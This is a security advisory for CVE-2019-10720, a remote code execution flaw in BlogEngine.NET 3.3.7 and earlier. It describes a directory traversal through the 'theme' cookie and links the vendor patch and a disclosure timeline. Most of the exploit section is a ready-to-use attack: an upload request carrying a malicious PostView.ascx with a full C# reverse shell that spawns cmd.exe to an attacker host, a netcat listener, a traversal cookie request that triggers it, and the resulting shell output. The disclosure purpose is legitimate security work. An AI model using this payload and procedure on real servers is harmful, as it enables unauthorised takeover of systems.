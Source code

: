 A remote code execution (RCE) attack, CVE-2019-10720, exists on BlogEngine.NET versions 3.3.7 and earlier.  A user with privileges to add/upload files could upload a malicious `PostView.ascx` file and exploit a directory traversal in the **theme** cookie to trigger the RCE.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases/tag/v3.3.8.0>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 17 Jun 2019

## Description

The application will use the **theme** cookie if the **theme** parameter is not set:

~~~{command="BlogEngine.Core/BlogSettings.cs"}
413         public string Theme
414         {
415             get
416             {
417                 var context = HttpContext.Current;
418                 if (context != null)
419                 {
420                     var request = context.Request;
421                     if (request.QueryString["theme"] != null)
422                     {
423                         return request.QueryString["theme"];
424                     }
425
<r:b>426                     var cookie = request.Cookies[this.ThemeCookieName];
427                     if (cookie != null)
428                     {
429                         return cookie.Value;
430                     }</r:b>
~~~

The **theme** cookie is vulnerable to a directory traversal; the **theme** cookie can be set to a folder that contains a malicious `PostView.ascx`, such as `.../../App_Data/files`.  The malicious code contained in `PostView.ascx` will be executed.

## Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10720/exploit.py>

A malicious file can be uploaded using `File Manager` in the application, `/api/upload?action=file`, or `/api/upload?action=filemgr`. In the following example `/api/upload?action=file` is used to upload the malicious `PostView.ascx` file:

<pagebreak></pagebreak>

~~~
POST /api/upload?action=file HTTP/1.1
Host: <r:var>$RHOST</r:var>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/plain
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: .AUXBLOGENGINE-96d5b379-7e1d-4dac-a6ba-1e50db561b04=<r:redacted>COOKIE</r:redacted>
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------12143974373743678091868871063
Content-Length: 2085

-----------------------------12143974373743678091868871063
Content-Disposition: form-data; filename="PostView.ascx"

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

		using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<r:var>$LHOST</r:var>", <r:var>$LPORT</r:var>)) {
			using(System.IO.Stream stream = client.GetStream()) {
				using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
					streamWriter = new System.IO.StreamWriter(stream);

					StringBuilder strInput = new StringBuilder();

					System.Diagnostics.Process p = new System.Diagnostics.Process();
					p.StartInfo.FileName = "cmd.exe";
					p.StartInfo.CreateNoWindow = true;
					p.StartInfo.UseShellExecute = false;
					p.StartInfo.RedirectStandardOutput = true;
					p.StartInfo.RedirectStandardInput = true;
					p.StartInfo.RedirectStandardError = true;
					p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
					p.Start();
					p.BeginOutputReadLine();

					while(true) {
						strInput.Append(rdr.ReadLine());
						p.StandardInput.WriteLine(strInput);
						strInput.Remove(0, strInput.Length);
					}
				}
			}
		}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
		StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
			} catch (Exception err) { }
        }
    }
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>

-----------------------------12143974373743678091868871063--
~~~

The exploit can be triggered by opening a `netcat` listener:

~~~{command="nc -nlvp <r:var>$LPORT</r:var>"}
listening on [any] <r:var>$LPORT</r:var> ...
~~~

Browsing to the application with the **theme** cookie set to `../../App_Data/files/2019/06/`, no authentication required, triggers the Code Execution and opens a reverse shell:

~~~
GET / HTTP/1.1
Host: <r:var>$LHOST</r:var>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: <r:var>theme</r:var>=<r:b>../../App_Data/files/2019/06</r:b>;
Connection: close
Upgrade-Insecure-Requests: 1
~~~

~~~{command="nc -nlvp <r:var>$LPORT</r:var>"}
listening on [any] <r:var>$LPORT</r:var> ...
connect to [<r:var>$LHOST</r:var>] from (UNKNOWN) [<r:var>$RHOST</r:var>] 49822
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
ipconfig
C:\Windows\system32>ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
~~~
